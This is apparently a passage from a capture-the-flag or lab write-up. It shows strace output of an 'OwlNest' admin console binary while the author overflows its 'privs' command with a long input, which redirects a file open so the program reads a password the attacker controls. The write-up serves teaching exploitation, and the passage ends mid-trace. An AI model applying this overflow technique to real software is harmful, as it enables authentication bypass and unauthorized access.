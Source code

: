 ``` bash

) = 69
write(1, "This is the OwlNest Administrati"..., 46This is the OwlNest Administration console

) = 46
write(1, "Type Help for a list of availabl"..., 47Type Help for a list of available commands.

) = 47
write(1, "Ready: ", 7Ready: )                  = 7
fstat64(0, {st_mode=S_IFCHR|0600, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb775d000
read(0, username root
"username root\n", 1024)        = 14
write(1, "Ready: ", 7Ready: )                  = 7
read(0, privs AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
"privs AAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1024) = 96
write(1, "Ready: ", 7Ready: )                  = 7
read(0, password hello
"password hello\n", 1024)       = 15
open("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ", O_RDONLY) = -1 ENOENT (No such file or directory)
open("/root/password.txt", O_RDONLY)    = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=5, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb775c000
fstat64(3, {st_mode=S_IFREG|0644, st_size=5, ...}) = 0
_llseek(3, 0, [0], SEEK_SET)            = 0
read(3, "cunt\n", 5)                    = 5
_llseek(3, 5, [5], SEEK_SET)            = 0
close(3)                                = 0
munmap(0xb775c000, 4096)                = 0
write(1, "Ready: ", 7Ready: )                  = 7
read(0, ^C <unfinished ...>
root@pwk:~# 
```

However, by pure chance, in this particular attempt, I tried to overflow the privs command, and as you can see, it seems the application is attempting to open AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA before the password file. Can we use this to make the application open a file containing a password we control ? Yes, yes we can...

``` bash
root@pwk:~# strace ./adminconsole
execve("./adminconsole", ["./adminconsole"], [/* 19 vars */]) = 0
uname({sys="Linux", node="pwk", ...})   = 0
brk(0)                                  = 0x84b0000
brk(0x84b0cd0)                          = 0x84b0cd0
set_thread_area({entry_number:-1 -> 6, base_addr:0x84b0830, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
brk(0x84d1cd0)                          = 0x84d1cd0
brk(0x84d2000)                          = 0x84d2000
fstat64(1, {st_mode=S_IFCHR|0600, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7717000
write(1, "        (\\___/)   (\\___/)   (\\__"..., 67        (\___/)   (\___/)   (\___/)   (\___/)   (\___/)   (\___/)
) = 67
write(1, "        /0\\ /0\\   /o\\ /o\\   /0\\ "..., 67        /0\ /0\   /o\ /o\   /0\ /0\   /O\ /O\   /o\ /o\   /0\ /0\
) = 67
write(1, "        \\__V__/   \\__V__/   \\__V"..., 67        \__V__/   \__V__/   \__V__/   \__V__/   \__V__/   \__V__/
) = 67
write(1, "       /|:. .:|\\ /|;, ,;|\\ /|:. "..., 68       /|:. .:|\ /|;, ,;|\ /|:. .:|\ /|;, ,;|\ /|;, ,;|\ /|:. .:|\
```